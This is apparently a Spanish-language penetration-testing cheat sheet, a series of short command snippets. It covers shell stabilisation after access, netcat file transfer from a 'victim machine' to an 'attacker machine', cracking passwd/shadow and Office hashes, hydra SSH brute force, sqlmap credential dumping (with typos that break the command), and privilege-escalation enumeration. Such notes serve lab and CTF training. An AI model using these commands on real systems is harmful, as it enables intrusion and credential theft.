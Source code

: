  ### Tratamiento de la TTY
#tecnicas
```python
	script /dev/null -c bash # Lanza pseudoconsola
	
	[ctrl+z] # Suspende la shell actual
	
	stty raw -echo; fg # Recupera la shell suspendida
	
	reset xterm # Reinicia la configuración de la terminal xterm # Especifica el tipo de terminal
	
	export TERM=xterm # Asigna xterm a la variable TERM
	
	export SHELL=bash # Asigna bash a la variable SHELL
	
	stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>
	
	Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
 
### TTY Shell con Python

```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Copiar al clipboard

```python
	cat archivo.txt | xclip -sel clip
```
### Descompresión

```python
#.tar
	
	tar -xf archive.tar.gz
	
#.gz
	
	gzip -d file.gz
	
#.zip
	
	unzip file.zip
```
### Comparación de archivos

```python
	diff -c scan-a.txt scan-b.txt
	
	comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP
	
#Servidor
	
	python3 -m http.server
	
	python -m SimpleHTTPServer

#Cliente
	
	certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt
	
	wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor
	
	python3 -m pyftpdlib
	
#Cliente
	
	ftp <SERVER_IP>
```
### Netcat
```python

#Servidor

	nc 10.10.14.2 4242 < file

#Cliente

	nc -lvnp 4242 > file
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina atacante
	nc -lvnp "Port" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina victima
	nc "IP" "Port" < "archivo"

```
### ssh

```python
scp -r ''USER@IP:/ruta/* . * ruta donde queremos copiar(.)''
```
---

### información de procesos

```python
	ps -faux
```
### Sniffing

```python
	tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	
	hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
	unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
	office2john.py <Ruta_Documento> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
	steghide --extract -sf archivo.png/jpg
```
### Búsqueda de exploits

```python
	searchsploit <SOFTWARE>
	
	searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit
	
	searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
	find / -iname nombre_archivo
```

### Permisos SUID

```python
	find / -perm -4000 -ls 2>/dev/null
```
### Fuerza bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```

### Cambio de usuario sobre archivos 

```python
	sudo chown root:root nombre_del_archivo
```

### sqlmap

```python
	sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C usarname,passwoed --dumb
```

### numero de caracteres

```python
echo -n "caracteres" | wc -c
```

### Capabilitis 

```python
	getcap -r / 2>/dev/null
```

### Standard PAHT

```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### Integridad del hash de un binario compartido
```python
	md5sum Binario
```

### Listar conexiones de red
```python
lsof -i # lsof -i:port
```


